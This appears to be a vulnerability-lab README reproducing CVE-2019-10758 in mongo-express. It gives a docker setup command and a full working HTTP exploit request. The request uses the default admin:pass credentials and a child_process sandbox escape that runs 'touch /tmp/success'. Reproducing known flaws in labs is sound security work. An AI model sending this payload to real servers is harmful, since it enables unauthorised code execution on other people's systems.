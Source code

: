 # Mongo Express Remote Code Execution (CVE-2019-10758)

[中文版本(Chinese version)](README.zh-cn.md)

mongo-express is a third-party Web interface for MongoDB, developed using Node.js and Express. If an attacker can successfully log in, or if the target server hasn't changed the default credentials (`admin:pass`), they can execute arbitrary Node.js code.

## Environment Setup

Execute the following command to start mongo-express version 0.53.0:

```bash
docker compose up -d
```

After the environment starts, visit `http://your-ip:8081` to access the Web interface.

## Vulnerability Reproduction

Send the following HTTP request to execute the code `this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`:

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

As you can see, the `touch /tmp/success` command has been executed successfully:

![](1.png)
